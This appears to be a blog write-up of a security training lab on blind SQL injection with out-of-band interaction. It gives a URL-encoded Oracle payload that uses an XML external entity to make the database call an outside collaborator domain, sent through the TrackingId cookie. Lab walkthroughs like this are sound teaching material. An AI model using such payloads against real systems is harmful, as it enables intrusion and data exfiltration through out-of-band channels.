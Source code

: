 ```yaml
---
layout: post
title:  "Blind SQL injection with out-of-band interaction"
date:   2024-09-26 09:39:54 +0530
---
```


## Objective 

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator. 

## Solution 

The Particular lab is utilising oracle database and we can able to find this using the `sqlmap` and I don't wanna go further with it 

Going through the cheatsheet, In order to achieve the DNS lookup off particular server we are controlling.. this payload will be useful in it 

```sql
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//h1j5djyu3nv2dr3jkiyc733sajga410pp.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

Let's send the above payload through `TrackingId` parameter inside `Cookie` and when we send the request.. As it response with status code of `200` 

![]({{ site.baseurl }}/assets/images/sqli54.png)

Checking the Burp collaborator, we have recieved few DNS pingbacks 

![]({{ site.baseurl }}/assets/images/sqli55.png)

Our endgoal is acheived and lab is solved 

![]({{ site.baseurl }}/assets/images/sqli56.png)